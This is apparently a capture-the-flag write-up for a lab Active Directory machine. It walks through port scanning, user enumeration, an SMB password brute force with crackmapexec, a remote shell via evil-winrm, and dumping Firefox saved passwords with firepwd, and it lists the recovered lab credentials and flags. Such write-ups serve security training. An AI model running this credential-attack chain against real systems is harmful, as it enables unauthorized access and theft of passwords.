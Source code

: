 # DICTIONARY / Active Directory

![](../.gitbook/assets/4fbaa63b5f7149a5831396f7ed032893.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-16 00:28:23Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Dictionary.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Dictionary.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DICTIONARY
|   NetBIOS_Domain_Name: DICTIONARY
|   NetBIOS_Computer_Name: DICTIONARY-DC
|   DNS_Domain_Name: Dictionary.csl
|   DNS_Computer_Name: Dictionary-DC.Dictionary.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-16T00:29:17+00:00
|_ssl-date: 2021-03-16T00:29:57+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

ADD Dictionary.csl in your /etc/hosts

## SMB ENUMERATION

* DEAD END

## LDAP ENUMERATION

* NOTHING INTERESTED

## KERBEROS ENUMERATION

### USER ENUMERATION

![](../.gitbook/assets/bdc4d05eabaf4a79bcc07e621aa85d48.png)

## GETTIN HASH & CRACK IT

![](../.gitbook/assets/646cf30c15cd4077a69a1d7e5693da90.png)

## ENUMERATE OTHERS DOMAIN USERS

```text
rpcclient -U "izabel" 172.31.3.4
enumdomusers
```

![](../.gitbook/assets/e9679b99e3da4d19a40d215b4d2c85e2.png)

```text
Administrator
Guest
krbtgt
Izabel
CValencia
BACKUP-Izabel
```

* USE EXREX TO MADE AN MONTH/YEAR LIST LIKE IZABEL \(MONTHYEAR\)

```text
https://github.com/asciimoo/exrex
```

## CRACKMAPEXEC BRUTEFORCE

```text
crackmapexec smb 172.31.3.4 -u name.txt -p pass.txt
```

![](../.gitbook/assets/dd3e8287efc141a4b187899473a8ec76.png)

![](../.gitbook/assets/0983a71388a54129ae91f6e3fe856586.png)

![](../.gitbook/assets/cd95cadbe8d5456eb02a9d5122c2cd27%20%281%29.png)

## GETTING A SHELL

```text
evil-winrm -i 172.31.3.4 -u 'BACKUP-Izabel' -p 'October2019'
```

![](../.gitbook/assets/efe5184d547647ddbed51b83db3343eb.png)

### WINPEAS

![](../.gitbook/assets/40af7cb5409742ada6b9c8099c08a088.png)

```text
C:\Users\BACKUP-Izabel\AppData\Roaming\Mozilla\Firefox\Profiles\65wr35iv.default-release\key4.db
```

![](../.gitbook/assets/9e93e4335b8140fd84ba1fc1e30e3005.png)

## RETRIEVING PASSWORDS FIREPWD

* [https://github.com/lclevy/firepwd](https://github.com/lclevy/firepwd)

```text
python3 /opt/firepwd/firepwd.py key4.db
```

![](../.gitbook/assets/88a3481d5e3f468ea2d21aecd9ab161e.png)

```text
iHgPVQivZw7wpEd
iAmRoot
LUp2KhdP
NotADuck
x7VtnCWZ
EpicL_yep
kC7pbrQAsTT
```

## CHECKING THIS PASSWORDS

![](../.gitbook/assets/afa8b9e67b1a431d97ec500addd25753.png)

![](../.gitbook/assets/92ed63bf7ff14d978766b4c760761417.png)

## CREDS

```text
izabel:June2013
BACKUP-Izabel:October2019
Administrator:kC7pbrQAsTT
```

## FLAGS

### USER

```text
44d83b9985749480f7dd57f23e72c851
```

### ROOT

```text
5f10b45e7f64ce852e6e0ac0eda224ff
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

